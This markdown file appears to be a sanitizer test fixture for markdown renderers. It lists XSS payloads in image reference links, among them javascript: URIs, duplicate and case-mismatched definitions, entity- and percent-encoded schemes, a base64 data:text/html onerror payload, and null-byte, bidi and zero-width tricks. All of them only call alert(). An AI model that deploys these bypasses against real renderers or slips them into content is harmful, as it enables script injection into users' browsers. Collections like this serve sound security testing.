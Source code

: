 # Advanced Image Reference Manipulation and URL State Confusion

## Reference link with state confusion
![test][dangerous-ref]
![safe][legitimate-ref]

[dangerous-ref]: javascript:alert('ref-payload')
[legitimate-ref]: https://safe.com/image.jpg

## Reference overriding attacks
![test][ref1]
[ref1]: https://safe.com/image.jpg
[ref1]: javascript:alert('override') "Double definition"

## Case-insensitive reference exploitation  
![test][MIXEDCASE]
[mixedcase]: javascript:alert('case-insensitive')

## Reference with URL fragments breaking validation
![test][frag-ref]
[frag-ref]: https://safe.com#javascript:alert('fragment')

## Reference with malformed syntax parsing
![test] [spaced-ref-malformed]
[spaced-ref-malformed]:javascript:alert('no-space')

## References with markdown injection in title
![test][title-inject]
[title-inject]: https://safe.com/image.jpg "Safe title [**bold**](javascript:alert('nested'))"

## References with HTML entities in definition
![test][entity-ref]
[entity-ref]: &#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;alert('entities')

## Multiple reference definitions with parser confusion
![test][multi-def]

[multi-def]: https://safe.com/first.jpg
Normal content here
[multi-def]: javascript:alert('second') "Which definition wins?"

## Reference link URL construction bypass attempts
![test][construct-ref]
[construct-ref]: data:text/html;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KCdyZWZkYXRhJyk+

## Reference with percent-encoded dangerous characters
![test][encoded-dangerous]
[encoded-dangerous]: %6A%61%76%61%73%63%72%69%70%74%3Aalert('encoded-ref')

## References breaking across line boundaries
![test][
multiline-ref
]
[multiline-ref]: javascript:alert('multiline')

## Reference injection through parentheses confusion  
![test](javascript:alert('inline'))
![test][paren-confuse]
[paren-confuse]: https://safe.com/image.jpg

## References with parser state reset attempts
![test][reset-ref]

---

[reset-ref]: javascript:alert('after-divider')

## Reference with protocol smuggling in definition
![test][protocol-ref]
[protocol-ref]: https://safe.com\x00javascript:alert('null-inject')

## Reference with Unicode directional override in URL
![test][bidi-ref]  
[bidi-ref]: https://safe.com/‮tpircsavaj:alert('rtl-override')

## Reference definitions with markdown escaping
![test][escaped-ref]
[escaped-ref]: https://safe.com/\)javascript:alert('escape-inject')

## Reference with nested bracket parsing confusion
![test][[nested-ref]]
[nested-ref]: javascript:alert('nested-brackets')

## Reference with zero-width characters
![test][​zwsp-ref​]
[​zwsp-ref​]: javascript:alert('zwsp-boundary')

## References exploiting parser lookahead
![test][lookahead-ref] and more content
[lookahead-ref]: javascript:alert('lookahead-exploit')

## Reference with malformed title containing injection
![test][malformed-title-ref]
[malformed-title-ref]: https://safe.com/image.jpg "title contains \" javascript:alert('quote-break')

## Reference URL with path traversal normalization bypass
![test][traversal-ref]
[traversal-ref]: https://safe.com/../../../javascript:alert('traversal')

## References with control character injection
![test][control-ref]
[control-ref]: https://safe.com/\x08\x0E\x0Fjavascript:alert('control')